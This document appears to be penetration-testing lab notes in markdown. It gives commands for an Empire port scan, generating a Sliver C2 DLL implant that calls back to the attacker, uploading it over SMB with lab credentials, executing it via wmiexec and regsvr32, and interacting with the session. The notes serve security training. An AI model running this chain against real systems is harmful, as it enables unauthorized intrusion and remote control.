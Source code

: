 ### Port Scan
* linux
    * port scan from empire agent
    ```
    usemodule powershell/situational_awareness/network/portscan
    set Hosts 10.130.10.10
    execute
    ```
    * view the task results
    ```
    view TASK_NUM
    ```

# Payloads
## Sliver
### Sliver and Payloads
* linux
    * sliver server
        * launch the server
        ```
        sudo sliver-server
        ```
        * setup a listener
        ```
        https
        ```
        * generate dll
        ```
        generate --os windows --arch 64bit --format shared --skip-symbols --http https://LINUX_TUN0_ADDRESS
        ```

### Copying adn Execute DLL
* linux
    * change the permission
    ```
    sudo chown sec560:sec560 *.dll
    ls -l *.dll
    ```
    * upload the dll file
    ```
    smbclient.py hiboxy/bgreen:Password1@10.130.10.25
    use c$
    put PAYLOAD_NAME.dll
    ls
    exit
    ```
    * execute the payload
    ```
    wmiexec.py hiboxy/bgreen:Password1@10.130.10.25
    regsvr32 PAYLOAD_NAME.dll
    ```
    * sliver server
        * interact with the session
        ```
        use SESSION_ID
        ```
        * get information about the session
        ```
        info
        ```
